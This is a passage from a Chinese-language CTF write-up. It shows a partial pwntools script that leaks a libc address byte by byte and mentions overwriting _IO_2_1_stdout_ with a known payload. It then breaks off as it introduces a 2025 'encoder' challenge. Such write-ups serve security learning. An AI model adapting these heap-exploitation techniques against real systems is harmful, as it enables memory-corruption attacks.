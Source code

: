 ```python
			r.recvuntil(">> ")
			r.sendline(b"3")
			r.recvuntil(b"Index: ")
			r.sendline(str(1))
			r.recvuntil(b"New size of content: ")
			r.send(ch+payload)
			if b"Too large" in r.recv(10):
				r.recvuntil(b"say: ")
				r.send(b"a")
				break
			ch=chr(ord(ch)+1)
			r.recvuntil(b"say: ")
			r.send(b"a")
		if ch =='h':
			break
		payload=chr(ord(ch)-1)+payload
		print(payload)
		if len(payload)>3:
			pause()
			context.log_level='debug'
		index+=1
	return payload			
			
			
		

#gdb.attach(r)

#(index+1)//8+
pause()
libc=ELF("libc-2.31.so")
add_(0,0x8)
add_(1,0x58)


main_area=libc.sym["__malloc_hook"]+0x10
print(hex(libc.sym["_IO_2_1_stdout_"]))

print(get_libc())

r.interactive()
```

出于不明原因,这个脚本在另一位师傅的电脑上运作的很好,而在我的电脑上却会在泄露了前5位后出现输入错位的现象...于是我也就没有继续按照这个思路写完脚本了.

正常的打法是覆盖`_IO_2_1_stdout_`为`p64(0xfbad1800)+p64(0)*3+'\x00'`(这个payload通用程度很高,我就没去看具体的原理).

##### 3.[软件系统安全赛 2025]encoder

题目提供了一个简单的压缩算法.主要功能包括上传文件(一大堆字符),下载文件,压缩以及解压文件.

大概逻辑如下:
